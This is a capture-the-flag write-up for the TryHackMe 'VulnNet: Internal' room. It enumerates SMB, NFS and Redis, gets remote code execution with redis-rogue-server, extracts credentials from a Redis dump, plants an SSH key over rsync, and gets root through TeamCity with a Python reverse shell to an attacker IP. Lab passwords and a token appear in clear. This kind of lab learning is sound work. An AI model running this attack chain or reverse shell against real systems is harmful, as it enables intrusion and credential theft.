---
---

# THM - VulnNet: Internal

```bash
rustscan -a 10.10.218.65 --ulimit 5000 -- -A
```





- SMBMap:

```bash
smbmap -H 10.10.218.65 -u Guest

```



```bash
smbclient //10.10.218.65/shares -U Guest

cat services.txt

```
- Connect to redis:

```bash
redis-cli -h 10.10.218.65

```



This means that you need valid credentials to access the Redis instance

- Moving on to NFS (port 2049):

```bash
showmount -e 10.10.218.65

```



```bash
mkdir /tmp/vulnnet

sudo mount -t nfs <ip>:<remote_folder> <local_folder> -o nolock

sudo mount -t nfs 10.10.218.65:/opt/conf /tmp/vulnnet -o nolock

```






- Looking in redis directory we get the redis.conf:



- Connect to redis again with password:

```bash
redis-cli -h 10.10.218.65 -a B65Hx562F@ggAZ@F

```



**Redis version: 4.0.9**

**<u>Exploit:</u>**

```bash
redis-cli -h 10.10.193.202 -a B65Hx562F@ggAZ@F

> KEYS *
> get "internal flag"
> LRANGE authlist 1 20

```



**OR**




<https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis>

<https://github.com/Jean-Francois-C/Database-Security-Audit/blob/master/Redis%20database%20penetration%20testing>

```bash
git clone https://github.com/n0b0dyCN/redis-rogue-server.git

./redis-rogue-server.py --rhost 10.10.218.65 --lhost 10.8.24.66 --passwd B65Hx562F@ggAZ@F

```



- Ran it again
**Interactive:**




**Reverse shell:**







- Upgrade shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
- List current directory - Found dump.rdb file:



Copy file to Kali:




Use rdbtools (more readable)

<https://github.com/sripathikrishnan/redis-rdb-tools>

<https://medium.com/@D0rkerDevil/how-i-found-credential-enriched-redis-dump-2b9e808024c4>

```bash
git clone https://github.com/sripathikrishnan/redis-rdb-tools

cd redis-rdb-tools
sudo python setup.py install
rdb --command json dump.rdb -f output.json

```
cat json or copy into a jsonviewer










rsync://rsync-connect@127.0.0.1 with password **Hcg3HP67@TW@Bc72v**

- We know rsync is being used
**Rsync is a utility for efficiently transferring and synchronizing files between computers, drives and networks**

<https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync>

- List the shared folders:

```bash
rsync -av --list-only rsync://10.10.193.202

```



- Connect to folder:

```bash
rsync rsync://rsync-connect@10.10.193.202/files

```



- Copy remote folder's files to Kali:

```bash
mkdir rsync_folder

rsync -av rsync://rsync-connect@10.10.193.202/files rsync_folder

```



This recursively transfers all files from the directory \<shared_name\> on the machine \<IP\>into the rsync_folder directory on the local machine




```bash
cat user.txt

```
- SSH folder is empty



- Create ssh keypair and upload:

```bash
ssh-keygen -t rsa

```



```bash
chmod 600 id_rsa

mv id_rsa.pub authorized_keys

chmod 600 authorized_keys

rsync -av authorized_keys rsync://rsync-connect@10.10.193.202/files/sys-internal/.ssh

```
- SSH in:

```bash
ssh -i id_rsa sys-internal@10.10.193.202

```
- TeamCity folder in /
<https://exploit-notes.hdks.org/exploit/web/teamcity-pentesting/>




- Check network connections:

```bash
ss -pant

```


Port 8111 is the default port for TeamCity and it's running locally

- Set up port forwarding
<https://www.hackingarticles.in/port-forwarding-tunnelling-cheatsheet/>

```bash
ssh -L 8111:localhost:8111 sys-internal@10.10.193.202 -i id_rsa

```
(The first port number can be anything - used on Kali)

- Go to 127.0.0.1:8111



- Click on Super User link


- On the SSH session:

```bash
grep -rnw /TeamCity/ -e "token" 2>/dev/null

```



- Log in with the token - 8807557903946249045

- Get root shell:
<https://exploit-notes.hdks.org/exploit/web/teamcity-pentesting/>




```bash
export RHOST="10.8.24.66";export RPORT=4443;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'

```

